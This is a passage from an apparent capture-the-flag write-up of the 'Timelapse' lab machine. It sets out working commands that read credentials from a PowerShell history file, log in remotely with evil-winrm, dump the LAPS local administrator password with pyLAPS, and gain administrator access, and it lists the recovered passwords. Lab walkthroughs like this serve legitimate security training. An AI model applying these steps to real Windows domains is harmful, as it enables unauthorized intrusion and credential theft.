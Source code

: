 ![image.png](image%2012.png)

Checking PowerShell history I see:

```powershell
type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![image.png](image%2013.png)

Now I am gonna use these credentials to login as `svc_deploy`:

```powershell
 evil-winrm -S -i $IP -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV’
```

`-S` - is used when port 5986 is open which means `SSL is enabled`.

## Shell as Administrator | NT Authority /System

I remember from enumeration that `svc_deploy` was in `LAPS_Readers`. Now I am gonna try to read Local Admin password using [`pyLAPS`](https://github.com/p0dalirius/pyLAPS):

```powershell
python3 pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

![image.png](image%2014.png)

Now we can authenticated as Local Admin using evil-winrm, or as NT Authority/System using psexec:

```powershell
psexec.py timelapse.htb/administrator:'5X67{H]$xPp{62/3$+3IC6p&'@$IP
```

It should work eventually, just kept hanging, I am gonna use evil-winrm anyway:

![image.png](image%2015.png)

```powershell
evil-winrm -S -i $IP -u administrator -p '5X67{H]$xPp{62/3$+3IC6p&'
```

![image.png](image%2016.png)

## Credentials

```bash
supremelegacy #zip file password
thuglegacy #pfx password
svc_deploy : E3R$Q62^12p7PLlC%KWaxuaV
5X67{H]$xPp{62/3$+3IC6p&
```

## Mitigation
